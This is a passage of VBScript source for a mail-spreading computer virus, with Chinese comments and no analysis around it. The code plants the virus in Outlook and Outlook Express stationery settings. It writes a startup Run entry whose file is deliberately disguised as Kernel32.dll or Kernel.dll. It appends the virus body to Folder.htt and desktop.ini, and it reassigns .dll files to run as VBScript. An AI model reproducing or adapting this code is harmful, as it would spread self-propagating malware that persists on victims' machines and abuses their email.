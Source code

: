 ```vbscript
Call KJMailReg("HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Stationery Name",ShareFile) 
Call KJMailReg("HKEY_CURRENT_USER\Identities\"&DefaultId&"\Software\Microsoft\Outlook Express\"& Left(OutLookVersion,1) &".0\Mail\Wide Stationery Name",ShareFile) 
WsShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Outlook\Options\Mail\EditorPreference",131072,"REG_DWORD" 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Windows Messaging Subsystem\Profiles\Microsoft Outlook Internet Settings\0a0d020000000000c000000000000046\001e0360","blank") 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\Microsoft Outlook Internet Settings\0a0d020000000000c000000000000046\001e0360","blank") 
WsShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Outlook\Options\Mail\EditorPreference",131072,"REG_DWORD" 
Call KJMailReg("HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Common\MailSettings\NewStationery","blank") 
KJummageFolder(Left(WinPath,3) & "Program Files\Common Files\Microsoft Shared\Stationery") 
End Function 


' 函数:KJCreateMilieu() 
' 功能：创建系统环境 
Function KJCreateMilieu() 
On Error Resume Next 
TempPath = "" 
' 判断操作系统是NT/2000还是9X 
If Not(FSO.FileExists(WinPath & "WScript.exe")) Then 
TempPath = "system32\" 
End If 
' 为了文件名起到迷惑性，并且不会与系统文件冲突。 
' 如果是NT/2000则启动文件为system\Kernel32.dll 
' 如果是9x启动文件则为system\Kernel.dll 
If TempPath = "system32\" Then 
StartUpFile = WinPath & "SYSTEM\Kernel32.dll" 
Else 
StartUpFile = WinPath & "SYSTEM\Kernel.dll" 
End If 
' 添加Run值，添加刚才生成的启动文件路径 
WsShell.RegWrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Kernel32",StartUpFile 
' 拷贝前期备份的文件到原来的目录 
FSO.CopyFile WinPath & "web\kjwall.gif",WinPath & "web\Folder.htt" 
FSO.CopyFile WinPath & "system32\kjwall.gif",WinPath & "system32\desktop.ini" 
' 向%windir%\web\Folder.htt追加病毒体 
Call KJAppendTo(WinPath & "web\Folder.htt","htt") 
' 改变dll的MIME头 
' 改变dll的默认图标 
' 改变dll的打开方式 
WsShell.RegWrite "HKEY_CLASSES_ROOT\.dll\","dllfile" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\.dll\Content Type","application/x-msdownload" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllfile\DefaultIcon\",WsShell.RegRead("HKEY_CLASSES_ROOT\vxdfile\DefaultIcon\") 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllfile\ScriptEngine\","VBScript" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\Shell\Open\Command\",WinPath & TempPath & "WScript.exe ""%1"" %*" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\ShellEx\PropertySheetHandlers\WSHProps\","{60254CA5-953B-11CF-8C96-00AA00B8708C}" 
WsShell.RegWrite "HKEY_CLASSES_ROOT\dllFile\ScriptHostEncode\","{85131631-480C-11D2-B1F9-00C04F86C324}" 
' 启动时加载的病毒文件中写入病毒体 
Set FileTemp = FSO.OpenTextFile(StartUpFile,2,true) 
FileTemp.Write VbsText 
FileTemp.Close 
End Function 
```